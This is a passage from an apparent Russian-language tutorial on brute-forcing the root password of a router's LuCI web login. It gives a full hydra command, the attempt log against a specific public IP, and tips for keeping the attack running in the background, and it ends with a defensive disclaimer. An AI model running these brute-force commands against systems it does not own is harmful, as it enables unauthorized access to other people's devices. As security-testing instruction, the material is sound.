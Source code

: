 Подбор пароля по словарю ничего нам не дал, поэтому мы запустим посимвольный перебор. Длину пароля возьмем от 5 до 9 символов, латиницу в нижнем регистре с цифрами и символами `!@#`:

```bash
$ hydra -l root -x "5:9:a1\!@#" -o ./hydra_result.log -f -V -s 80 178.72.90.181 http-post-form "/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username"
```

И видим что процесс успешно запустился:

```bash
Hydra (http://www.thc.org/thc-hydra) starting at 2015-08-12 14:31:01
[WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
[DATA] max 16 tasks per 1 server, overall 64 tasks, 268865638400000 login tries (l:1/p:268865638400000), ~262564100000 tries per task
[DATA] attacking service http-post-form on port 80
[ATTEMPT] target 178.72.90.181 - login "root" - pass "aaaaa" - 1 of 268865638400000 [child 0]
[ATTEMPT] target 178.72.90.181 - login "root" - pass "aaaab" - 2 of 268865638400000 [child 1]
[ATTEMPT] target 178.72.90.181 - login "root" - pass "aaaac" - 3 of 268865638400000 [child 2]
# ...
[ATTEMPT] target 178.72.90.181 - login "root" - pass "aaaa7" - 30 of 268865638400000 [child 0]
[ATTEMPT] target 178.72.90.181 - login "root" - pass "aaaa8" - 31 of 268865638400000 [child 2]
[ATTEMPT] target 178.72.90.181 - login "root" - pass "aaaa9" - 32 of 268865638400000 [child 1]
[ATTEMPT] target 178.72.90.181 - login "root" - pass "aaaa@" - 33 of 268865638400000 [child 11]
[ATTEMPT] target 178.72.90.181 - login "root" - pass "aaaa#" - 34 of 268865638400000 [child 4]
[ATTEMPT] target 178.72.90.181 - login "root" - pass "aaaba" - 35 of 268865638400000 [child 7]
```

И понимая безысходность данного подхода останавливаем процесс, возвращаясь к перебору по большому словарю.

Кстати, для запуска hydra в фоне с продолжением её работы после того, как ты отключишься от ssh можно поступить следующим образом:

```bash
$ hydra -bla -bla -bla -o ./hydra_result.log
# Нажимаем CTRL + Z
$ disown -h %1
# После этого отключаемся или продолжаем работу
# Для возврата к процессу перебора выполни '$ bg 1'

# Для того, чтоб после посмотреть работает ли гидра выполни:
$ ps ax | grep hydra

# А для того чтоб убить все процессы с гидрой:
$ for proc in $(ps ax | grep hydra | cut -d" " -f 1); do kill $proc; done;
```

### Вместо заключения

Не ленись настраивать на своих сервисах/железках защиту от брутфорса. Не используй фуфлыжные пароли. Не расценивай данный материал как призыв к каким-либо действиям. Используй для тестирования **своих** сервисов.

[passwords_list]:https://yadi.sk/d/2eXZv4s33aM4Hw
